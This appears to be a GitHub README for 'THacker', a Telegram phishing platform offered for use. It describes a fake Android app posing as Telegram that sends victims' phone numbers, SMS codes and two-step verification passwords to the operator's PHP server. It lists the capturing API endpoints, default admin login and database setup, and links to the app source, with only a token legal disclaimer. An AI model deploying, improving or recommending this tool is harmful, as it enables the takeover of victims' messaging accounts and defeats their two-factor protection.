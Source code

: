 # Telegram Hacker ` THacker `

### Android App
The Android app is Written in dart (Flutter) and the source code for that is 👇👇👇
[Android App source code](https://drive.google.com/file/d/1l1miqlZP4xCrxwyhF3EXr8VTq-4gLyW7/view?usp=sharing)

### What Is It?

THacker is a Phishing platform that can trick and get an account even if it's secured with two step verification. 
**Version 1.0**

## How it works

	It works with an android device so the victim must install the android app or the app can be installed by you in the device the app will look just like normal telegram app so the victim will think it's the normal telegram app he usually uses and when he open the app he will see the default telegram login page and Thacker comes here the app will communicate to Thacker not telegram server so all informations send by the user will be send to Thacker which is you   

# API Reference

- You can use `Postman` for testing purpose

	` Definition of Keywords in the URL `

	*Name of the device*							**[DEVICE]**
	*Name of the app* 								**[APP_NAME]**
	*Received id during the first request* 			**[ID]**
	*Phone number* 									**[PHONE]**
	*Version of the app* 							**[VERSION]**
	*SMS code* 										**[CODE]**
	*Password* 										**[PASSWORD]**

	`Keywords are  shown in brackets []`

	> https://example.com/thacker/api/access.php?device=[DEVICE]&app=[APP_NAME]&version=[VERSION]

	> https://example.com/thacker/api/phone.php?id=[ID]&phone=[PHONE]

	> https://example.com/thacker/api/code.php?id=[ID]&code=[CODE]

	> https://example.com/thacker/api/verify.php?id=[ID]

	> https://example.com/thacker/api/password.php?id=[ID]&password=[PASSWORD]

	> https://example.com/thacker/api/vpass.php?id=[ID]

## Language

> PHP

> Jquery

> Ajax


## Web Page Login Details

> ID			~		12345678
> Password		~		password


## Database

- There is a `telegram.sql` file you can use to import to the database

	` Database Info `

	*Host* 										`localhost`
	*User* 										`root`
	*Password* 									
	*Database Name*									`telegram`

# Legal disclaimer

Usage of Thacker for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. The Developer assume no liability and is not responsible for any misuse or damage caused by this program.


## Creator

- Mikiyas Lemlemu  [Web-Developer](Web-Developer)
	
	> [Facebook](https://facebook.com/mikiyaslemlemu)
	
	> [Telegram](https://t.me/m_miko)
	
	> [Github](https://github.com/mikiyasET)

	> [Email](mikiyaslemlemu@gmail.com)

## License & copyright

© Mikiyas Lemlemu <img width="10px" height="10px" src="https://img.icons8.com/metro/26/000000/marker.png"/> ETHIOPIA 🇪🇹

### Donate

[![ko-fi](https://www.ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/N4N51K3IH)


